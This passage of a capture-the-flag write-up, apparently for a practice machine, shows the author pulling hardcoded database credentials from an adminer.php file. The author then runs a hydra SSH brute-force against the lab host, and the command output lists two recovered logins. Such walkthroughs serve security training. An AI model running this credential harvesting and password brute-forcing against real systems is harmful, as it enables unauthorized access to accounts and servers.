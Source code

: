 ![80 Adminer Source Code](screenshots/80_adminer_dump_adminerphp.png)

To view the output from the SQL commands we can simply view the table contents.

```sql
SELECT * FROM random
```

The `adminer.php` file had some credentials hardcoded to connect to the local MySQL database.

```php
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

I noticed that the `waldo` user was in the `/etc/passwd` file. So thought I should try it on SSH. It would work on the Adminer page too if we need to log back in later. Instead of just trying a single SSH login, I updated the `user.txt` and `pass.txt` files from before and ran another `hydra` command.

```none
└─$ hydra -L files/user.txt -P files/pass.txt 10.10.10.187 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-19 15:03:09
[DATA] max 4 tasks per 1 server, overall 4 tasks, 90 login tries (l:15/p:6), ~23 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-19 15:04:02
```